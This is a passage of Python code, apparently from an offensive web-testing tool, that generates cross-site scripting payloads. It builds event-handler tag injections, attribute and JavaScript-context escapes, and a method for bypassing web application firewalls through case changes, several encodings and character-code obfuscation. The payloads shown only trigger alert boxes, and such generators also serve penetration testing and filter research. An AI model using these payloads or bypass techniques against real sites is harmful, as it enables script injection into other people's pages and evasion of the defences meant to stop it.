 ```python
            events = ['onload', 'onerror', 'onmouseover', 'onclick', 'onfocus', 'onblur', 'onchange']
            tags = ['img', 'svg', 'iframe', 'body', 'div', 'input', 'textarea', 'select']
            
            for event in events:
                for tag in tags:
                    if tag == 'img':
                        payload = f'<{tag} src=x {event}=alert("XSS")>'
                    else:
                        payload = f'<{tag} {event}=alert("XSS")>'
                    advanced_payloads.append(payload)
        
        elif context == 'attribute':
            # Attribute escape payloads
            escape_chars = ['"', "'", '`']
            for char in escape_chars:
                advanced_payloads.extend([
                    f'{char} onmouseover={char}alert("XSS"){char} {char}',
                    f'{char}><script>alert("XSS")</script>',
                    f'{char} autofocus onfocus={char}alert("XSS"){char} {char}'
                ])
        
        elif context == 'javascript':
            # JavaScript context escapes
            js_escapes = [
                '\';alert("XSS");//',
                '\";alert("XSS");//',
                '</script><script>alert("XSS")</script>',
                '/**/alert("XSS")/**/',
                'alert("XSS")/*',
                '*/alert("XSS")/*'
            ]
            advanced_payloads.extend(js_escapes)
        
        return advanced_payloads
    
    def waf_bypass_techniques(self):
        """Advanced WAF bypass techniques"""
        bypass_payloads = []
        
        # Case variation
        base_payload = '<script>alert("XSS")</script>'
        variations = [
            '<ScRiPt>alert("XSS")</ScRiPt>',
            '<SCRIPT>alert("XSS")</SCRIPT>',
            '<script>Alert("XSS")</script>',
            '<script>ALERT("XSS")</script>'
        ]
        bypass_payloads.extend(variations)
        
        # Encoding techniques
        encoded_payloads = [
            '%3Cscript%3Ealert("XSS")%3C/script%3E',  # URL encoding
            '&lt;script&gt;alert("XSS")&lt;/script&gt;',  # HTML entities
            '\\u003cscript\\u003ealert("XSS")\\u003c/script\\u003e',  # Unicode
            '&#60;script&#62;alert("XSS")&#60;/script&#62;',  # Decimal entities
            '&#x3C;script&#x3E;alert("XSS")&#x3C;/script&#x3E;'  # Hex entities
        ]
        bypass_payloads.extend(encoded_payloads)
        
        # Obfuscation techniques
        obfuscated_payloads = [
            '<script>eval(String.fromCharCode(97,108,101,114,116,40,34,88,83,83,34,41))</script>',
```